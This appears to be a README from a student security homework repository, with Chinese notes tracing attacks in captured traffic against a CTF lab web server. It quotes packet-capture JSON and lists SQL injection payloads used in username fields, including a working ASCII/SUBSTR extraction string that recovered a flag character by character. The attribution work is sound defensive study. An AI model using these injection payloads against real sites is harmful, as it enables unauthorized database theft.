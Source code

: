 # InformationSecurity_Homework

Jiaxing Qiu branch

## 代码

```
src/
 - datafilter.py: czy的数据预处理脚本，我稍微改了一下，让它能读多个dataset
 - parseflag.py: 从批量HTML数据中解析出第四题flag的自动化脚本
```

## Overleaf

[Here](https://cn.overleaf.com/1281747996zntnkfyxtgcj)

## 下面是攻击溯源的一些临时记录

## 11

只有一条流量数据，无法分析

## 12

从`Apr 23, 2023 21:10:44.348292000 中国标准时间`持续到了`Apr 23, 2023 21:13:58.911153000 中国标准时间`，攻击者大量访问了web服务经常会泄露信息的路径，如`/.admin`、`/.access`、`/.AppleDB`、`/.git`等，扫描记录一共9086条，考虑是该同学利用`dirsearch`或类似工具对网站进行了目录扫描。

...

```
"http": {"POST /register.php HTTP/1.1\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "POST /register.php HTTP/1.1\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.request.method": "POST", "http.request.uri": "/register.php", "http.request.version": "HTTP/1.1"}, "http.host": "10.0.0.4", "http.request.line": "Upgrade-Insecure-Requests: 1\r\n", "http.user_agent": "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0", "http.accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "http.accept_language": "en-US,en;q=0.5", "http.accept_encoding": "gzip, deflate", "http.content_type": "application/x-www-form-urlencoded", "http.content_length_header": "67", "http.content_length_header_tree": {"http.content_length": "67"}, "http.connection": "close", "http.referer": "http://10.0.0.4/register.php", "http.cookie": "PHPSESSID=lhvtnq625or51joujrrvd872e7", "http.cookie_tree": {"http.cookie_pair": "PHPSESSID=lhvtnq625or51joujrrvd872e7"}, "\\r\\n": "", "http.request.full_uri": "http://10.0.0.4/register.php", "http.request": "1", "http.request_number": "1", "http.response_in": "4195680", "http.file_data": "email=fuboat%40outlook.com&username=%27%2Baba%2B%27&password=123456"}, "urlencoded-form": {"Form item: \"email\" = \"fuboat@outlook.com\"": {"urlencoded-form.key": "email", "urlencoded-form.value": "fuboat@outlook.com"}, "Form item: \"username\" = \"'+aba+'\"": {"urlencoded-form.key": "username", "urlencoded-form.value": "'+aba+'"}, "Form item: \"password\" = \"123456\"": {"urlencoded-form.key": "password", "urlencoded-form.value": "123456"}}}}}
```

，并且紧接着就有一次`http://10.0.0.4/login.php`的访问，其`302`跳转至`http://10.0.0.4/index.php`。

```
"http": {"HTTP/1.1 200 OK\\r\\n": {"_ws.expert": {"http.chat": "", "_ws.expert.message": "HTTP/1.1 200 OK\\r\\n", "_ws.expert.severity": "2097152", "_ws.expert.group": "33554432"}, "http.response.version": "HTTP/1.1", "http.response.code": "200", "http.response.code.desc": "OK", "http.response.phrase": "OK"}, "http.date": "Sun, 23 Apr 2023 14:23:26 GMT", "http.response.line": "Content-Type: text/html\r\n", "http.server": "Apache/2.4.7 (Ubuntu)", "http.cache_control": "no-store, no-cache, must-revalidate, post-check=0, pre-check=0", "http.content_encoding": "gzip", "http.content_length_header": "792", "http.content_length_header_tree": {"http.content_length": "792"}, "http.connection": "close", "http.content_type": "text/html", "\\r\\n": "", "http.response": "1", "http.response_number": "1", "http.time": "0.007606000", "http.request_in": "4196758", "http.response_for.uri": "http://10.0.0.4/index.php", "Content-encoded entity body (gzip): 792 bytes -> 1840 bytes": "", "http.file_data": "<!doctype html>\n<html lang=\"en\">\n  <head>\n    <meta charset=\"utf-8\">\n    <title>������������</title>\n    <meta http-equiv=\"cleartype\" content=\"on\">\n    <meta name=\"MobileOptimized\" content=\"320\">\n    <meta name=\"HandheldFriendly\" content=\"True\">\n    <meta name=\"apple-mobile-web-app-capable\" content=\"yes\">\n    <meta name=\"viewport\" content=\"width=device-width,height=device-height,initial-scale=1.0,minimum-scale=1.0,maximum-scale=1.0,user-scalable=no\" />\n    <link rel=\"stylesheet\" href=\"./stylesheets/index.css\">\n    <link rel=\"stylesheet\" href=\"./stylesheets/flaticon.css\" />\n    <link rel='stylesheet' href='./stylesheets/style.css' />\n  </head>\n  <body>\n\n    <nav id=\"menu\">\n      <div>\n        <div class=\"img-div\">\n          <div class=\"user-img\"><img src=\"./uploads/a.jpeg\"></div>\n          <span class=\"user-name\">\n            0          </span>\n        </div>\n      </div>\n    </nav>\n\n    <main id=\"panel\">\n      <header>\n        <header class=\"pass-header\">\n          <span class=\"pass-header-title\">CTF</span>\n          <div id=\"back-menu\">\n            <div class=\"glyph-icon flaticon-back\">\n            </div>\n          </div>\n          <div id=\"userinfo-wraps\">\n            <div class=\"glyph-icon flaticon-settings-1\">\n            </div>\n          </div>\n      </header>\n      <img style=\"max-width:100%;max-height::100%;overflow:hidden;\" src=\"images/674407.jpg\" alt=\"\">\n      </header>\n    </main>\n    <script src=\"./javascripts/slideout/slideout.min.js\"></script>\n    <script>\n      var slideout = new Slideout({\n        'panel': document.getElementById('panel'),\n        'menu': document.getElementById('menu'),\n        'padding': 256,\n        'tolerance': 70\n      });\n\n      document.querySelector('#back-menu').addEventListener('click', function() {\n        slideout.toggle();\n      });\n    </script>\n\n  </body>\n</html>"}, "data-text-lines": {"<!doctype html>\\n": "", "<html lang=\"en\">\\n": "", "  <head>\\n": "", "    <meta charset=\"utf-8\">\\n": "", "    <title>我的应用</title>\\n": "", "    <meta http-equiv=\"cleartype\" content=\"on\">\\n": "", "    <meta name=\"MobileOptimized\" content=\"320\">\\n": "", "    <meta name=\"HandheldFriendly\" content=\"True\">\\n": "", "    <meta name=\"apple-mobile-web-app-capable\" content=\"yes\">\\n": "", "    <meta name=\"viewport\" content=\"width=device-width,height=device-height,initial-scale=1.0,minimum-scale=1.0,maximum-scale=1.0,user-scalable=no\" />\\n": "", "    <link rel=\"stylesheet\" href=\"./stylesheets/index.css\">\\n": "", "    <link rel=\"stylesheet\" href=\"./stylesheets/flaticon.css\" />\\n": "", "    <link rel='stylesheet' href='./stylesheets/style.css' />\\n": "", "  </head>\\n": "", "  <body>\\n": "", "\\n": "", "    <nav id=\"menu\">\\n": "", "      <div>\\n": "", "        <div class=\"img-div\">\\n": "", "          <div class=\"user-img\"><img src=\"./uploads/a.jpeg\"></div>\\n": "", "          <span class=\"user-name\">\\n": "", "            0          </span>\\n": "", "        </div>\\n": "", "      </div>\\n": "", "    </nav>\\n": "", "    <main id=\"panel\">\\n": "", "      <header>\\n": "", "        <header class=\"pass-header\">\\n": "", "          <span class=\"pass-header-title\">CTF</span>\\n": "", "          <div id=\"back-menu\">\\n": "", "            <div class=\"glyph-icon flaticon-back\">\\n": "", "            </div>\\n": "", "          </div>\\n": "", "          <div id=\"userinfo-wraps\">\\n": "", "            <div class=\"glyph-icon flaticon-settings-1\">\\n": "", "      </header>\\n": "", "      <img style=\"max-width:100%;max-height::100%;overflow:hidden;\" src=\"images/674407.jpg\" alt=\"\">\\n": "", "    </main>\\n": "", "    <script src=\"./javascripts/slideout/slideout.min.js\"></script>\\n": "", "    <script>\\n": "", "      var slideout = new Slideout({\\n": "", "        'panel': document.getElementById('panel'),\\n": "", "        'menu': document.getElementById('menu'),\\n": "", "        'padding': 256,\\n": "", "        'tolerance': 70\\n": "", "      });\\n": "", "      document.querySelector('#back-menu').addEventListener('click', function() {\\n": "", "        slideout.toggle();\\n": "", "    </script>\\n": "", "  </body>\\n": "", "</html>": ""}}}}
```

可以看出，`Apr 23, 2023 22:22:36.443178000 中国标准时间`的时候，该同学已经开始尝试使用`'+aba+'`进行SQL注入攻击。可惜，MySQL没法使用`+`号拼接字符串，所以该同学没法得到他想要的回显。从服务器返回的`index.php`的html可以看出，回显的结果是`0`，并不是该同学输入的`+aba+`，但这说明SQL注入是可行的。

果不其然，该同学紧接着又进行了数十次类似的攻击尝试，使用了`abc'+'abc'+'abc`、`'||'abc'||'`、`'+'0'+ASCII(SUBSTR((SELECT+*+FROM+FLAG),1,1))+'`、`'+'0'+ASCII(SUBSTRING((SELECT * FROM FLAG)FROM 1 FOR 1))+'`、`'+CAST(ASCII(SUBSTR((SELECT * FROM flag) FROM 1 FOR 1)) AS CHAR)+'`等字符串作为用户名进行SQL注入攻击。有趣的是，有那么几次攻击尝试中，该同学尝试更换了`ASCII`和`SUBSTR`的大小写进行攻击，意义不明。

从`Apr 23, 2023 23:53:45.585005000 中国标准时间`开始，攻击者使用`0'+ascii(substr((select * from flag) from 1 for 1))+'0`成功拿到了flag第一位的ASCII码。之后在很短时间内，直到`Apr 23, 2023 23:54:57.027632000 中国标准时间`，攻击者一共尝试了45次（即循环至``0'+ascii(substr((select * from flag) from 45 for 1))+'0``），之后就没有攻击记录了，说明该同学已经成功获取了flag。

根据服务器返回的html数据，我们也编写脚本自动解码出了该同学第四题的flag：`7498e38f-35de-4e93-b28a-5c36cfc9241f`。
